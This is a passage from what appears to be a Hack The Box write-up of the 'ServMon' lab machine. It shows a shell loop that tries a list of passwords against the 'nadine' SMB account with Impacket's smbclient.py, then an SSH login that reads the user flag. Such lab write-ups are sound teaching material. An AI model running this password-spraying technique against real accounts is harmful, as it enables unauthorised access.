 Next, we can try it against `nadine` user account. And it found the correct password `L1k3B1gBut7s@W0rk`.

```console
$ while read i; do echo "[INFO] Password: $i" && smbclient.py servmon/nadine:$i@10.10.10.184; done < pass.txt 

[INFO] Password: 1nsp3ctTh3Way2Mars!
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

[-] SMB SessionError: STATUS_LOGON_FAILURE(The attempted logon is invalid. This is either due to a bad username or authentication information.)
[INFO] Password: Th3r34r3To0M4nyTrait0r5!
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

[-] SMB SessionError: STATUS_LOGON_FAILURE(The attempted logon is invalid. This is either due to a bad username or authentication information.)
[INFO] Password: B3WithM30r4ga1n5tMe
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

[-] SMB SessionError: STATUS_LOGON_FAILURE(The attempted logon is invalid. This is either due to a bad username or authentication information.)
[INFO] Password: L1k3B1gBut7s@W0rk
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

Type help for list of commands
```

## SSH Login

Using that credentials, we can ssh into the box and read the `user.txt` flag.

<b>user.txt</b>

```console
root@kali:~/Documents/htb/box/servmon# ssh nadine@10.10.10.184
nadine@10.10.10.184's password:

Microsoft Windows [Version 10.0.18363.752]          
(c) 2019 Microsoft Corporation. All rights reserved.
                                                    
nadine@SERVMON C:\Users\Nadine>cd desktop           

nadine@SERVMON C:\Users\Nadine\Desktop>dir
 Volume in drive C has no label.                  
 Volume Serial Number is 728C-D22C                
                                                  
 Directory of C:\Users\Nadine\Desktop             
                                                  
08/04/2020  21:28    <DIR>          .             
08/04/2020  21:28    <DIR>          ..            
24/11/2020  04:43                34 user.txt      
               1 File(s)             34 bytes     
               2 Dir(s)  27,726,118,912 bytes free
                                                  
nadine@SERVMON C:\Users\Nadine\Desktop>type user.txt
190d ***REDACTED*** ec7f
```
